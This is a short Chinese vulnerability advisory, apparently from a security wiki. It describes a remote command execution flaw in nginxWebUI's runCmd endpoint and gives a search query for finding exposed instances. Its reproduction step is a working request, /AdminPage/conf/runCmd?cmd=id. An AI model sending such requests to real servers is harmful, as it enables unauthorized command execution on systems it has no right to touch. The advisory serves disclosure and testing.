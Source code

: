 # nginxWebUI runCmd 远程命令执行漏洞

## 漏洞描述

nginxWebUI runCmd 接口存在远程命令执行漏洞，攻击者通过漏洞可以获取到服务器权限，执行任意命令

## 漏洞影响

<a-checkbox checked>nginxWebUI  </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="nginxwebui" </a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1656223039336-00b1d204-6cba-4178-b152-fa38c63a72c1-6057456.png)

验证请求包

```php
/AdminPage/conf/runCmd?cmd=id
```

![img](/assets/PeiQi-Wiki/img/1686057565628-a73253da-a91a-4065-9fc0-2ce30caf1e5a.png)
